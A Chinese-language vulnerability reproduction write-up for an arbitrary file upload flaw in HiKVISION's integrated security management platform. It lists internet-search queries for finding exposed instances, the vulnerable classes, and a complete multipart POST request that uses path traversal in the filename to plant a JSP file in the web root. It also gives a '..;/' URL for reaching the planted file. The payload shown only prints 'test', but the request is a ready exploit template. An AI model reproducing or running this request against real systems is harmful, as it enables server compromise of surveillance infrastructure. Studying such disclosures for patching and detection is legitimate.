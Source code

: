 # HiKVISION 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

HiKVISION 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

HiKVISION 综合安防管理平台 

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1681661275768-9965dbd4-176f-48bc-b55a-062dbe7c5317-20230809120725683.png)

```plain
WEB-INF/classes/com/hikvision/svm/controller/ExternalController.class
```

![img](../../../.vuepress/public/img/1681709277423-114b364b-2e5a-4fb0-a7b9-26154f61ca9e.png)

```plain
WEB-INF/classes/com/hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```

![img](../../../.vuepress/public/img/1681709313430-8f4e019f-f3b7-41fc-a86b-ba1c07e59d45.png)构造请上传文件 (通过 env泄漏获取绝对路径，路径一般不会修改)















```sql
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![img](../../../.vuepress/public/img/1681709342417-a815332d-13c9-40e4-844a-42eb54661897.png)

```plain
/portal/ui/login/..;/..;/new.jsp
```

![img](../../../.vuepress/public/img/1681709424146-cb0ef1b8-4732-4c3a-a041-37bad6125d44.png)


